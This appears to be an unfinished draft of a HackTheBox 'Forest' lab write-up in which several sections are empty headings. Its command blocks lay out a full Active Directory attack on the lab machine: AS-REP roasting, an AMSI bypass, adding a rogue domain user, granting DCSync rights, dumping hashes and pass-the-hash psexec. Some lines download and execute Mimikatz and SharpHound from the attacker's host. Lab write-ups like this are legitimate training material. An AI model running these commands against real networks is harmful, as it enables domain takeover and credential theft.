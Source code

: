 ```yaml
---
layout: post
title: "HTB: Forest"
date: 2022-08-10 18:07 +0100
tags: hackthebox htb activedirectory hacking ldap bloodhound
categories: [Pentesting, HackTheBox]
published: false
---
```


Forest is a fully Windows based machine which is semi-unique on HackTheBox in that it doesn't have a web server running. We start by enumerating the open ports eith `nmap` and find LDAP running. From there we're able to use APRep Roasting to get a hash which we crack using `JohnTheRipper` and gain access to the machine using `evil-winrm` where we're able to gather some information to dump into `BloodHound` and from there gain full admin through causing a DCSync and then dumping the Administrators hash with `impacket-secretsdump`.

Strap in.

![Forest](/assets/img/Forest.png)

## Enumeration

```bash
53/tcp    open  domain       syn-ack Simple DNS Plus
88/tcp    open  kerberos-sec syn-ack Microsoft Windows Kerberos (server time: 2022-09-23 09:55:12Z)
135/tcp   open  msrpc        syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap         syn-ack Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds syn-ack Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?    syn-ack
593/tcp   open  ncacn_http   syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped   syn-ack
3268/tcp  open  ldap         syn-ack Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped   syn-ack
5985/tcp  open  http         syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf       syn-ack .NET Message Framing
47001/tcp open  http         syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc        syn-ack Microsoft Windows RPC
49665/tcp open  msrpc        syn-ack Microsoft Windows RPC
49666/tcp open  msrpc        syn-ack Microsoft Windows RPC
49667/tcp open  msrpc        syn-ack Microsoft Windows RPC
49671/tcp open  msrpc        syn-ack Microsoft Windows RPC
49680/tcp open  ncacn_http   syn-ack Microsoft Windows RPC over HTTP 1.0
49681/tcp open  msrpc        syn-ack Microsoft Windows RPC
49685/tcp open  msrpc        syn-ack Microsoft Windows RPC
49701/tcp open  msrpc        syn-ack Microsoft Windows RPC
```

Lots of open ports, most of them are garbage*

The main ones of interest for us since there is no web server, are the LDAP and SMB ports, and also Kerberos, but we can't really do much with Kerberos until we have some credentials.

And just for completeness, Simple DNS Plus is vulnerable to a [Remote DoS attack](https://www.exploit-db.com/exploits/6059)

> \*Something I've noticed in people who are new to Windows Pentesting is that they tend to panic when they see the output from `nmap` and see all of those ports open. Run Service Verification on them and you'll see it's mostly just RPC and while there is some useful information you can gain from RPC it's very low on the list of things you can actively exploit.
{: .prompt-tip }

### SMB

### LDAP

## User.txt

```bash
# Python Bloodhound Ingestor (returned some slightly jank data)
bloodhound-python -d htb.local -u svc-alfresco -p s3rvice -gc forest.htb.local -c all -ns 10.129.95.210

# SharpHound.ps1
IEX(New-Object Net.WebClient).downloadString("http://10.10.14.3:8000/SharpHound.ps1")
Invoke-BloodHound

After reviewing the BloodHound data we find a path to DC Administrator via the following:

- svc-alfresco is a member of "Service Accounts"
- "Service Accounts" is a member of "Priviledged IT Accounts"
- "Priviledged IT Accounts" is a member of "Account Operators"
- members of "Account Operators" have "GenericAll" permissions on "Exchange Windows Permissions"


IWR -Uri http://10.10.14.3:8000/PowerView.ps1 -Outfile pv.ps1
Bypass-4MSI

# Add a user
net user bullsec Test123 /add /domain

# Add them to the correct groups
net group "Exchange Windows Permissions" bullsec /add
net localgroup "Remote Management Users" bullsec /add


evil-winrm -i 10.129.228.27 -u bullsec -p Test123
$pass = convertto-securestring 'Test123' -asplain -force
$cred = new-object system.management.automation.pscredential("htb\bullsec", $pass)
Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity bullsec -Rights DCSync
impacket-secretsdump htb/bullsec@10.129.228.27 -outputfile forest.hashes
impacket-psexec administrator@10.129.228.27 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
type C:\Users\Administrator\Desktop\root.txt
exit

$pass = convertto-securestring 'Test123' -asplain -force
$cred = new-object system.management.automation.pscredential("htb\bullsec", $pass)

# This doesn't work
Add-ObjectACL -PrincipalIdentity bullsec -Credential $cred -Rights DCSync
DRSR SessionError: code: 0x20f7 - ERROR_DS_DRA_BAD_DN - The distinguished name specified for this replication operation is invalid.

# This does


Add-DomainObjectAcl


IEX(New-Object Net.WebClient).downloadString("http://10.10.14.3:8000/Invoke-Mimikatz.ps1")
```

```bash
ldapsearch -x -b "DC=htb,DC=local" '(objectClass=User)' sAMAccountName -H ldap://10.129.95.210
ldapsearch -x -b "DC=htb,DC=local" '(objectClass=User)' sAMAccountName -H ldap://10.129.95.210 | grep -i name

ldapsearch -x -b "DC=htb,DC=local" '(objectClass=*)' -H ldap://10.129.95.210 | grep -i "Service Accounts"

(Alternative) enum4linux $(cat target.txt)

~/Tools/impacket/examples/GetNPUsers.py -usersfile userlist.out -dc-ip $(cat target.txt) htb.local/

evil-winrm -i 10.129.95.210 -u svc-alfresco -p s3rvice
```

## BloodHound

![BloodHound Graph](/assets/img/2022-10-09-00-08-09.png)

## Root.txt
